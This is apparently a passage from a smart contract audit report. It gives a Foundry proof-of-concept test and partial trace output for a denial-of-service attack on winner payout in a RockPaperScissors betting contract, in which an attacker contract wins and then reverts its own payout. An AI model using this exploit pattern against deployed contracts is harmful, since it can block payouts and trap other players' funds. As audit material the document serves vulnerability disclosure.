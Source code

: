 ```javascript
        // Allocate funds to both players
        vm.deal(honest, 1 ether);
        vm.deal(address(attacker), 1 ether);
    }

    function test_DoSOnWinnerPayout() public {
        // Step 1: Honest player creates a game
        vm.prank(honest);
        uint256 gameId = game.createGameWithEth{value: 0.5 ether}(1, 10 minutes);

        // Step 2: The attacker generates his commit
        (,, bytes32 attackerCommit) = attacker.getCommit();

        // Step 3: The attacker joins the game
        vm.prank(address(attacker));
        game.joinGameWithEth{value: 0.5 ether}(gameId);

        // Step 4: Both commit
        vm.prank(honest);
        bytes32 saltHonest = keccak256("scissors");
        bytes32 commitHonest = keccak256(abi.encodePacked(uint8(3), saltHonest)); // Scissors
        game.commitMove(gameId, commitHonest);

        vm.prank(address(attacker));
        game.commitMove(gameId, attackerCommit);

        // Step 5: Both reveal
        vm.prank(honest);
        game.revealMove(gameId, 3, saltHonest); // Scissors

        // Attacker reveals and wins → an attempt is made to pay him → his contract is reverted → Transfer failed
        vm.expectRevert("Transfer failed");
        vm.prank(address(attacker));
        game.revealMove(gameId, 1, keccak256("malicious")); // Rock
    }
}

```

## Output (-vvvv):

```javascript

❯ forge test --mt test_DoSOnWinnerPayout -vvvv
Warning: This is a nightly build of Foundry. It is recommended to use the latest stable version. Visit https://book.getfoundry.sh/announcements for more information. 
To mute this warning set `FOUNDRY_DISABLE_NIGHTLY_WARNING` in your environment. 

[⠒] Compiling...
[⠆] Compiling 1 files with Solc 0.8.20
[⠰] Solc 0.8.20 finished in 14.69s
Compiler run successful!

Ran 1 test for test/RPS_DoS.t.sol:RockPaperScissorsDoSTest
[PASS] test_DoSOnWinnerPayout() (gas: 381969)
Traces:
  [381969] RockPaperScissorsDoSTest::test_DoSOnWinnerPayout()
    ├─ [0] VM::prank(0x00000000000000000000000000000000000000A1)
    │   └─ ← [Return]
    ├─ [184325] RockPaperScissors::createGameWithEth{value: 500000000000000000}(1, 600)
    │   ├─ emit GameCreated(gameId: 0, creator: 0x00000000000000000000000000000000000000A1, bet: 500000000000000000 [5e17], totalTurns: 1)
```